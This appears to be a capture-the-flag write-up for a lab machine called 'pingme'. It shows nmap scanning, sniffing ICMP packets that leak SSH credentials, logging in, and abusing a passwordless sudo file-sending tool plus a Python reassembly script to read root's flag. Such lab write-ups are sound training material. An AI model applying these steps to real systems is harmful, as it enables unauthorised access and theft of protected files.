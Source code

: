### ***Target: 10.0.0.30***

## ***NMAP***

    # nmap -sS -T4 -p- 10.0.0.31

    PORT   STATE SERVICE                                                                                      
    22/tcp open  ssh                                                                                          
    80/tcp open  http

## ***HTTP***

Going to ***http://10.0.0.30*** we have apache's landing page, but after doing as the title said and we ping the machine, we have a different page.

![image](https://user-images.githubusercontent.com/76552238/166162631-14cb787f-487b-4661-8587-eda78b22f264.png)

It seems like the web server is pinging our local machine, let's see how we can exploit it to our advantage. Let's start by sniffing a bit using ***Wireshark***.

<!--ICMP reverse shell?-->

After sniffing with Wireshark I viewed the ICMP requests coming from the web server to our local machine. After decoding the hex encoded data I got this data on the packets.

    First Packet

    G$�����e
    username
    username
    username
    username
    us

>

    Second Packet

    ·Ô
    �����nger
    pinger
    pinger
    pinger
    pinger
    pinger

>

    Third Packet

    ÒE�����d
    password
    password
    password
    password
    pa

>

    Fourth Packet

    ßö
    �����ngM3
    P!ngM3
    P!ngM3
    P!ngM3
    P!ngM3
    P!ngM3

From this packets we can get the credentials ***pinger:P!ngM3***. Let's log in to ssh now.

    # ssh pinger@10.0.0.30

We can now read the first flag.

    $ cat user.txt 
    HMV{ICMPisSafe}

## ***PRIVILEGE ESCALATION***

Let's see if the user 'pinger' is a part of the sudoers group

    $ sudo -ll
    Matching Defaults entries for pinger on pingme:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User pinger may run the following commands on pingme:

    Sudoers entry:
        RunAsUsers: root
        Options: !authenticate
        Commands:
            /usr/local/sbin/sendfilebyping

After running the command as sudo and sending the user.txt file to our local machine, I built a script with python to help reassemble the packets.

getFileContent.py

    key = ""

    with open("strings-results.txt") as file:
        for line in file:
            if(len(line) == 41):
                key += line[0]
                key = key.strip('\n')
                #print(line[0], end="")

    i = 0
    for char in key:
        if(i % 2 == 0):
            print(char, end="")
        i += 1 


Running the same script on the strings of the root.txt file on the /root directory on the remote machine and we get the final flag.

### ***/root/root.txt***
    HMV{ICMPcanBeAbused}

<!--Not working for some reason but found the right ssh key (I guess)-->